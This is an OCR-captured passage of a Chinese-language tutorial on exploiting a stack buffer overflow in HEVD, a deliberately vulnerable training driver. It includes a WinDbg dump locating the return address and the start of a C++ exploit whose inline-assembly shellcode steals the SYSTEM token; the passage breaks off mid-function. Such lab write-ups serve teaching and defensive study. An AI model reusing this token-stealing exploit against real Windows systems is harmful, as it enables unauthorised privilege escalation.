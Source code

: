```
```

从缓冲区开始我们查找相应的地址，所以偏移为0x830

```
1: kd> dd KernelBuffer+0x800
916f3a88  00000000 00000001 00000000 00000而
916f3a98  916f3278 00000302 916f3bc0 a5e990d0
916f3aa8  4e66d44e 00000000 916f3ad4 a5edd696 // 返回地址
916f3ab8  0016f334 00000800 00000001 c0000001
916f3ac8  00000800 00000000 0016f334 916f3afc
916f3ad8  a5eddeac 88bab550 88bab5c0 00000001
916f3ae8  00000000 00222003 00000000 c00000bb
916f3af8  88bab5c0 916f3b14 83e78593 86ad3f08


```

但我们的shellcode将`HEVD!TriggerBufferOverflowStack`的返回地址覆盖为提权函数地址，saved_ebp相应被覆盖为`aaaa`。所以在`HEVD!TriggerBufferOverflowStack`返回后会执行shellcode，而此时ebp被破坏。而在shellcode结束的时候我们应该正常返回到`HEVD!IrpDeviceIoCtlHandler`，所以我们手动平衡堆栈即可（移动堆栈，修改ebp为0x916f3afc，再ret时候再平衡即可）。

## 完成exp

```c++
#include<stdio.h>
#include<windows.h>

#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)

#define HEVD_IOCTL_BUFFER_OVERFLOW_STACK                         IOCTL(0x800)
#define HEVD_IOCTL_BUFFER_OVERFLOW_STACK_GS                      IOCTL(0x801)

typedef void(*FunctionPointer)(void);

void Shellcode()
{
	//__debugbreak();
	_asm
	{
		nop
		pushad
		mov eax, fs:[124h]		
		mov eax, [eax + 0x50] 	
		mov ecx, eax 			
		mov edx, 4

		find_sys_pid :
					 mov eax, [eax + 0xb8]		
					 sub eax, 0xb8			
					 cmp[eax + 0xb4], edx	
					 jnz find_sys_pid

					 mov edx, [eax + 0xf8]
					 mov[ecx + 0xf8], edx
					 popad
					 add esp, 0x20
					 pop ebp
					 ret 8
	}
}

static VOID CreateCmd()
{
	STARTUPINFO si = { sizeof(si) };
```